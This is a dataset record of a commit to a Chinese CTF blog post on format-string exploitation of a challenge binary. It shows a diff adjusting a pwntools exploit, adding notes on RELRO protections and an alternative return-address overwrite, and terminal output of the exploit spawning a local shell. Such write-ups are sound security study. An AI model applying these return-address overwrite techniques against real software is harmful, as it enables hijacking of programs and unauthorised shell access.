

Before and after one commit to kody-black/oldblog, a Jekyll site: the page built from _posts/2023-10-23-格式化字符串-2.md, in a window 1280 px wide and 1400 px high, scrolled down 6104 px. Shown: the whole window at 92% size, without its empty margins (233-1239 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; grey boxes are pictures that could not be loaded.

Commit message:
好几天的博客，忘了push了

````diff
--- a/_posts/2023-10-23-格式化字符串-2.md
+++ b/_posts/2023-10-23-格式化字符串-2.md
@@ -301,8 +301,6 @@ exp如下：
 
 ```
 from pwn import *
-# context.log_level="debug"
-context.arch="amd64"
 
 sh=process("./pwnme_k0")
 binary=ELF("pwnme_k0")
@@ -334,3 +332,27 @@ sh.sendline(b"1")
 sh.recv()
 sh.interactive()
 ```
+
+> 补充：
+>
+> 在Full RELRO模式下，所有的GOT项都会被标记为只读，包括全局函数地址、全局变量地址和动态符号表等。
+>
+> 在Partial RELRO模式下，只有部分的GOT项会被标记为只读，通常包括全局函数地址。其他的GOT项，如全局变量地址和动态符号表，仍可被修改。这样做的目的是在程序启动时，可以通过动态链接器动态加载一些共享库，提高程序的灵活性和性能。
+
+> 补充2，在第一步中，我们获取了rbp中存储的地址（即为上一个rbp），那么这个值+8不就应该是上一个函数的返回地址了，所以修改这个地址也可以。即：ret_addr = int(sh.recv()[:12],16) + 8
+>
+> 不过需要注意，这样做程序暂时还没有执行到system，所以需要结束程序才会进入shell（所以说还是覆盖当前的返回地址比较好），如下所示：
+
+```shell
+❯ python myexp.py
+[+] Starting local process './pwnme_k0': pid 250890
+[+] ret_addr:0x7fffb05a2a58
+[*] Switching to interactive mode
+1.Sh0w Account Infomation!
+2.Ed1t Account Inf0mation!
+3.QUit sangebaimao:(
+>$ 3
+byebyeT.T
+$ ls
+exp.py    myexp.py  pwnme_k0  temp.py
+```
````
Also changed, not shown: _posts/2023-10-24-web漏洞攻防学习-0.md (added, +43 -0 lines), _posts/2023-10-27-shell中常用的参数.md (added, +29 -0 lines).
